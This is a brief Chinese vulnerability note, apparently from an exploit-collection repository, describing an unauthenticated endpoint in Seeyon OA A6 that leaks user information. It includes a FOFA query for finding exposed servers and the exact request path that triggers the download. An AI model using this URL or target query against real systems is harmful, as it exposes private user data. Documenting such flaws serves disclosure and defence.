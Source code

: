 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

```
致远OA A6
```

## FOFA

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```

![image-20220520151947895](./images/202205201519045.png)